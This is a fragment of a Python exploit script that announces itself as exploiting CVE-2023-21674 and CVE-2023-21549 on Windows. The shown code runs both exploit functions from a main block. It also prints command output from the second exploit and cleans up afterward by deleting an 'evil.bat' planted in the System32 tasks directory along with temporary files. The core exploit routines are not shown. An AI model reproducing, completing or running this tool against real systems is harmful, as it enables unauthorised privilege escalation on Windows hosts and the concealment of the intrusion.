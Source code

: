 ```python
                print(f"[INFO] CVE-2023-21549 Output: {output.strip()}")

            os.remove(output_path)
            os.remove('C:\\Windows\\System32\\tasks\\evil.bat')
            os.remove(temp_file_path)

        else:
            print("[ERROR] CVE-2023-21549: Output not found.")

    except subprocess.CalledProcessError as e:
        print(f"[ERROR] CVE-2023-21549: Error executing command: {e}")
    except Exception as e:
        print(f"[ERROR] CVE-2023-21549: Unexpected error: {e}")

if __name__ == "__main__":
    required_modules = ['requests', 'argparse']

    all_modules_installed = True
    for module in required_modules:
        if not check_and_install_module(module):
            all_modules_installed = False
            break

    if all_modules_installed:
        parser = argparse.ArgumentParser(description="Exploits CVE-2023-21674 and CVE-2023-21549")
        parser.add_argument("--output_dir", help="Output directory for CVE-2023-21674")
        args = parser.parse_args()

        print("[+] Starting exploit script...")

        exploit_cve_2023_21674(args.output_dir)
        exploit_cve_2023_21549()

        print("[+] Exploit script completed.")
    else:
        print("[ERROR] Not all required modules could be installed. Script aborted.")
```